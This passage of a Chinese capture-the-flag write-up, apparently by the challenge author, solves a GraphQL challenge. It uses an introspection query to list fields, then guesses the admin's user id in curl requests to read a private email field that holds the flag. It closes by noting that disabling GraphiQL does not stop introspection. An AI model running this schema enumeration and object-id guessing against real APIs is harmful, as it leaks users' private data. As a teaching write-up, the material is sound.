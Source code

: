 `args` 看起来可以写在 `fields` 里面。当然如果不想看源代码，直接搜索也是可以的，出题的时候也参考了 [DigitalOcean 的 GraphQL Introspection 教程](https://www.digitalocean.com/community/tutorials/graphql-introspection-queries)。

```graphql
{
  __schema {
    queryType {
      name
      fields {
        name
        args {
          name
        }
      }
    }
  }
}
```

```console
$ curl 'http://202.38.93.111:15001/graphql' -X POST \
  -H 'Content-Type: application/json' \
  -H 'Cookie: <你自己得到的 Cookie>' \
  --data-raw '{"query":"{ __schema {queryType { name fields {name args{name}}}}}"}'
{"data":{"__schema":{"queryType":{"name":"Query","fields":[{"name":"note","args":[{"name":"id"}]},{"name":"notes","args":[{"name":"userId"}]},{"name":"user","args":[{"name":"id"}]}]}}}}
```

参数是 `id`。其实已经可以开始写查询了。`guest` 的 `userId` 是 2，那么 `admin` 的 `id` 八九不离十是 1：

```graphql
{
  user(id: 1) {
    id
    username
    privateEmail
  }
}
```

```console
$ curl 'http://202.38.93.111:15001/graphql' -X POST \
  -H 'Content-Type: application/json' \
  -H 'Cookie: <你自己得到的 Cookie>' \
  --data-raw '{"query":"{ user(id: 1) {id username privateEmail}}"}'
{"data":{"user":{"id":1,"username":"admin","privateEmail":"flag{dont_let_graphql_l3ak_data_<redacted>@hackergame.ustc}"}}}
```

搞定～

## 附录

为了摆脱 Pythongame 的诅咒（咳咳咳），出题人本来想用 Rust 实现这道题目，后来因为来不及 + 技术力不够，所以还是用了最熟悉的 Python Web 框架来实现。不过不管用啥应该都不会有大影响。

另外，本道题也说明了，关掉 GraphiQL 对安全性没啥帮助……该拿到的东西都可以通过 introspection 操作拿到。
